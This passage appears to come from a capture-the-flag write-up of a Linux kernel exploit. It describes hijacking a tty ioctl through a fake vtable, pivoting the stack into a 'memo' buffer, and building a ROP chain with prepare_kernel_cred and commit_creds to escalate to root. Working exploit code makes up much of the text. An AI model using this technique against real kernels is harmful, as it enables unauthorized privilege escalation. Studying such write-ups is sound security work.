 ```c
	long (*compat_ioctl)(struct tty_struct *tty,
			     unsigned int cmd, unsigned long arg);
```

​	

​	By now we have hijacked the ioctl of the opened tty, when we ioctl the tty the control flows goes into the gadget we place at the fake vtabl. The gadget will hijack the stack to the start of `memo`. The hijack can be achived because ioctl takes 3 argument plus the 2nd and 3rd ones are fully user controlable. We pass the address of the `memo` as the 3rd argument of ioctl and the value will be put in register `rdx`. So if we can find a gadget like

```assembly
push rdx ; pop rsp ; ret
```

we are able to hijack the stack to `memo`.



### 3.place a rop chain in `memo`

ordinary and trivial

```c
	// place a rop chain in memo_buf
    if(lseek(fd_m, 0, SEEK_SET) != 0) ErrExit("[-] lseek error4");
    memset(buf, 0, 0x400);
    unsigned long* rop = (unsigned long*)buf;
    *rop++ = 0;
    *rop++ = kernel_load_base + POPRDI;
    *rop++ = 0;
    *rop++ = kernel_load_base + PREPARECRED;
    *rop++ = kernel_load_base + POPRCX;
    *rop++ = 0;
    *rop++ = kernel_load_base + MOVRDIRAXREP;
    *rop++ = kernel_load_base + COMMITCRED;
    *rop++ = kernel_load_base + ROPUSER;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)win;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;

    if(write(fd_m, buf, 0x100) != 0x100) ErrExit("[-] write error3");
    // pass the stack address to be hijacked to as the 3rd argument and it
    // will be handled by GADGET1 as "push r12;...;pop rsp", achieve hijacking
    ioctl(fd_tty, memo_buf, memo_buf);
```



### 4.one more step
